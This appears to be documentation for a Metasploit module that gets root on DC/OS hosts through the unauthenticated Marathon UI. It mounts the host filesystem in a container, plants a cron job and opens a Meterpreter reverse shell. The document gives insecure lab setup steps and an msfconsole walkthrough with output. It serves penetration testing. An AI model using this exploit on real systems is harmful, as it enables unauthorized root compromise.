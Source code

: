 # Vulnerable Application
Utilizing the DCOS Cluster's Marathon UI, an attacker can create
a docker container with the '/' path mounted with read/write
permissions on the host server that is running the docker container.
As the docker container executes command as uid 0 it is honored
by the host operating system allowing the attacker to edit/create
files owed by root. This exploit abuses this to creates a cron job
in the '/etc/cron.d/' path of the host server.

*Notes: The docker image must be a valid docker image from
hub.docker.com. Further more the docker container will only
deploy if there are resources available in the DC/OS

## DCOS
This Exploit was tested with CentOS 7 as the host operating system for
the 2 services of the DCOS cluster. With DCOS version 1.7 and 1.8, with
Default 'custom' installation for on site premise setup. Only the Install
part of the DCOS guide was completed, the system hardening and securing
your cluster section where skipped. This is to represent a 'Default' install
with a system admin conducting hasty deployments taking no thought about security.


## To Setup Your Cluster
I recommend doing a 'on-premise'/custom
cluster. https://dcos.io/docs/1.8/administration/installing/custom/
Create a virtual CentOS machine, install requirements base on the above
guide.

```bash
# The TLDR from the above guide
sudo systemctl stop firewalld && sudo systemctl disable firewalld
sudo yum install -y tar xz unzip curl ipset ntp
sudo systemctl start ntpd
sudo systemctl enable ntpd
sudo sed -i s/SELINUX=enforcing/SELINUX=permissive/g /etc/selinux/config && \
   sudo groupadd nogroup && sudo reboot
```

Install a supported version of docker on the CentOS systems
https://dcos.io/docs/1.8/administration/installing/custom/system-requirements/install-docker-centos/

```bash
# The TLDR of the above guide
sudo yum -y remove docker docker-common container-selinux
sudo yum -y remove docker-selinux
sudo yum install -y yum-utils
sudo yum-config-manager \
   --add-repo \
   https://docs.docker.com/engine/installation/linux/repo_files/centos/docker.repo
sudo yum-config-manager --enable docker-testing
sudo yum makecache fast
sudo yum -y install docker-engine-1.11.2
sudo systemctl start docker
sudo systemctl enable docker
sudo echo overlay > /etc/modules-load.d/overlay.conf
sudo reboot
```

Once the CentOS machine has rebooted, edit the systemctl
service file for docker and change the ExecStart- line to
`ExecStart=/usr/bin/docker daemon --storage-driver=overlay -H fd://`
restart the docker service and verify it is running.
lastly generate ssh rsa keys for authentication. And update the
/etc/ssh/sshd_config file to support root login.

```bash
ssh-keygen -t rsa -b 4096
# Press enter until complete, DO NOT PUT A PASSWORD.
cp ~/.ssh/id_rsa.pub ~/.ssh/authorized_keys
cat ~/.ssh/id_rsa # save the output you will need it for later
rm ~/.ssh/id_rsa # before doing this make sure you have saved a copy for later
```

Shut down the CentOS vm, take a snapshot. (This will be your base)
clone the VM 2 times. One will be DCOS-Master, the Other DCOS-Agent.
Start the DCOS-Master and DCOS-Agent virtual machines You just cloned.
Login and get their current IP address.
* Note: I recommend giving them static IPs if you have further use for the cluster.

From here use another Linux machine with docker installed to finish
the installation process. I used an Ubuntu machine with docker installed.

Follow the custom CLI guide for creating the required files in
the genconf folder.
https://dcos.io/docs/1.8/administration/installing/custom/cli/

Example genconf/config.yaml
```
---
agent_list:
- 192.168.0.10
bootstrap_url: file:///opt/dcos_install_tmp
cluster_name: DCOS
exhibitor_storage_backend: static
ip_detect_filename: /genconf/ip-detect
master_discovery: static
master_list:
- 192.168.0.9
process_timeout: 10000
resolvers:
- 8.8.8.8
- 8.8.4.4
ssh_port: 22
ssh_user: root
```
Example genconf/ip-detect
```bash
#!/usr/bin/env bash
set -o nounset -o errexit
export PATH=/usr/sbin:/usr/bin:$PATH
ip=$(ip addr show ens33)
echo $( echo $ip | grep -Eo '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}' | head -1)
```

place your id_rsa ssh key into the genconf file and rename the
file to ssh_key and `chmod 0600 genconf/ssh_key`

Deploying the cluster
in the folder containing the genconf folder do the following.
NOTE: if following the cli install from DCOS itself, it will fail
if you do --install-prereqs. It will install an unsupported version of
docker.

```bash
curl -O https://downloads.dcos.io/dcos/stable/dcos_generate_config.sh
chmod +x dcos_generate_config.sh
sudo ./dcos_generate_config.sh --genconf
sudo ./dcos_generate_config.sh --preflight
# If all preflight checks pass
sudo ./dcos_generate_config.sh --deploy
# get a cup of coffie
# wait a minute or two after deploy completes
sudo bash dcos_generate_config.sh --postflight
```

If all is passing navigate to http://[master_ip]:8080/
You should see the Marathon UI web application.

# Exploitation
This module is designed for the attacker to leverage, creation of a
docker container with out authentication through the DCOS Marathon UI
to gain root access to the hosting server of the docker container
in the DCOS cluster.

## Options
- DOCKERIMAGE is the hub.docker.com docker container image you are wanting to have the DCOS Cluster to deploy for this exploit.
- TARGETURI this is the path to make the Marathon UI web request to. By default this is /v2/apps
- WAIT_TIMEOUT is how long you will wait for a docker container to deploy before bailing out if it does not start.
- CONTAINER_ID is optional if you want to have your container docker have a human readable name else it will be randomly generated

## Steps to exploit with module
- [ ] Start msfconsole
- [ ] use exploit/linux/http/dcos_marathon
- [ ] Set the options appropriately and set VERBOSE to true
- [ ] Verify it creates a docker container and it successfully runs
- [ ] After a minute a session should be opened from the agent server

## Example Output
```
msf > use exploit/linux/http/dcos_marathon
msf exploit(dcos_marathon) > set RHOST 192.168.0.9
RHOST => 192.168.0.9
msf exploit(dcos_marathon) > set payload python/meterpreter/reverse_tcp
payload => python/meterpreter/reverse_tcp
msf exploit(dcos_marathon) > set LHOST 192.168.0.100
LHOST => 192.168.0.100
msf exploit(dcos_marathon) > set verbose true
verbose => true
msf exploit(dcos_marathon) > check
[*] 192.168.0.9:8080 The target appears to be vulnerable.
msf exploit(dcos_marathon) > exploit

[*] Started reverse TCP handler on 192.168.0.100:4444
[*] Setting container json request variables
[*] Creating the docker container command
[*] The docker container is created, waiting for it to deploy
[*] Waiting up to 60 seconds for docker container to start
[*] The docker container is running, removing it
[*] Waiting for the cron job to run, can take up to 60 seconds
[*] Sending stage (39690 bytes) to 192.168.0.10
[*] Meterpreter session 1 opened (192.168.0.100:4444 -> 192.168.0.10:54468) at 2017-03-01 14:22:02 -0500
[+] Deleted /etc/cron.d/FOWkTeZL
[+] Deleted /tmp/TIWpOfUR

meterpreter > sysinfo
Computer        : localhost.localdomain
OS              : Linux 3.10.0-327.36.3.el7.x86_64 #1 SMP Mon Oct 24 16:09:20 UTC 2016
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```
